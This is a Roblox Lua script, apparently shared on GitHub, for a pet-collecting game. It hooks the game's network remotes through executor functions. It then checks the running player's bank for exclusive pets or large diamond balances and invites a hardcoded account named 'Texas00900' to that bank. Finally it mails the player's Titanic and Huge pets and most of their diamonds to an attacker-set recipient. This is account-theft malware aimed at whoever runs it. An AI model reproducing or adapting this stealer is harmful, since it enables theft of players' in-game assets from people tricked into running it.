 getgenv().YourAccNameThatGetsMailbox = "Texas00900"
getgenv().YourAccountIdForBankInvite = Texas00900
 
local v1 = require(game.ReplicatedStorage:WaitForChild("Framework"):WaitForChild("Library")) 
local cooldown = os.time() 
local GetRemoteUpValue = nil 
local pets = require(game:GetService("ReplicatedStorage").Directory.Pets["Grab All Pets"]) 
for _, V in pairs(getgc(true)) do 
    if type(V) ~= "table" then 
        continue 
    end 
    if rawget(V, "Invoke") then 
        if type(V.Invoke) == "function" then 
            if tostring(getfenv(V.Invoke).script) == "Network" then 
                GetRemoteUpValue = getupvalues(V.Invoke)[2]
                break 
            end 
        end 
    end 
end 
function FireRemote(Name, ...)
    if not GetRemoteUpValue then
        return end 
    local Remote = GetRemoteUpValue(Name) 
    if not Remote then
        return
    end 
    if typeof(Remote) ~= "Instance" then 
        return 
    end 
    if Remote.ClassName == "RemoteEvent" then 
        return Remote:FireServer(...) 
    elseif Remote.ClassName == "RemoteFunction" then
        return Remote:InvokeServer(...) 
    end 
end 
local function is_huge(petdata)
    if pets[petdata.id]["huge"] then
        return true 
    end 
return false; 
end 
local function getMyBank()
    local banks = FireRemote("Get My Banks") 
      for i,v in pairs(banks) do if v.Owner == game.Players.LocalPlayer.UserId then
        return v.BUID 
      end 
    end 
end 
local specialPets = {["6969"]=true} 
local function isNotablePet(id) 
    local petData = pets[id] 
    if petData.rarity == "Exclusive" then
        return true 
        end
    if specialPets[id] ~= nil then
        return true
    end 
end 
local function inviteToBank(bank)
    if bank ~= nil then
        local bankData = FireRemote("Get Bank",bank)
        local pets = bankData.Storage.Pets
        local diamonds = bankData.Storage.Currency.Diamonds 
        if diamonds > 1000000000 then 
            return true; 
        end 
        for i,v in pairs(pets) do 
            if isNotablePet(v.id) == true then
                return true;
            end 
        end 
    end 
end 
local bank = getMyBank()
local invite = inviteToBank(bank)
if invite then 
    FireRemote("Invite To Bank",bank,getgenv().YourAccountIdForBankInvite)
end 
local save = v1.Save.Get()
local titanicHolder = game:GetService("Players").LocalPlayer.PlayerGui.Inventory.Frame.Main.Pets.Titanic
if titanicHolder:FindFirstChildWhichIsA("TextButton")
  then 
      print("found titanic") 
       FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hey", Pets = {[1]=titanicHolder:FindFirstChildWhichIsA("TextButton").Name}, Diamonds = 0 }) 
          end
         for i,v in pairs(save.Pets) do
             if is_huge(v) then
                 print("ok2") 
                 repeat wait(.1) until (cooldown - os.time()) <= 0
        local diamonds = (save.Diamonds)-20000000 
    if diamonds < 0 then 
        diamonds = 0 
    end 
print(FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hi", Pets = {[1]=v.uid}, Diamonds = diamonds })) cooldown = os.time() + 5 
end 
end 
